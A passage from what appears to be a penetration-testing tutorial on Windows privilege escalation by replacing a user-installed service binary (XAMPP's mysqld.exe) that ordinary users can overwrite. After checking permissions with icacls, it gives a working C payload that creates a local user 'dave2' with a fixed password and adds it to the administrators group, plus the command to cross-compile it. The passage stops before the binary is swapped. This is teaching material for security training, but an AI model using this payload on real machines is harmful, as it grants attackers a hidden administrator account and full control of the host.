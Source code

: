 > _**Network logons** (e.g., WinRM, bind shells) **may fail** when querying services as a non-admin user, while **interactive logins** (e.g., **RDP**) work without permission issues._

From the list above, the binaries located in the `C:\xampp` instead of the `C:\Windows\System32` directory (`apache2.4` and `mysql`) stand out because this means that these services are user-installed and are, therefore, susceptible to permission misconfigurations. We can enumerate their permissions using `icacls` or `Get-ACL` .

| Mask | Permissions    |
| ---- | -------------- |
| `F`  | Full Access    |
| `M`  | Modify Access  |
| `RX` | Read & Execute |
| `R`  | Read-only      |
| `W`  | Write-ony      |

```powershell
# Check the binary's permissions
> icacls "C:\xampp\mysql\bin\mysqld.exe"
C:\xampp\mysql\bin\mysqld.exe NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Administrators:(F)
                              BUILTIN\Users:(F)

Successfully processed 1 files; Failed processing 0 files
```

We will create a malicious binary to replace the original `mysqld.exe`.

{% tabs %}
{% tab title="1. Payload" %}
{% code title="addUser.c" %}
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
{% endcode %}
{% endtab %}

{% tab title="2. Cross-compile" %}
```bash
$ x86_64-w64-mingw32-gcc addUser.c -o addUser.exe
```
{% endtab %}
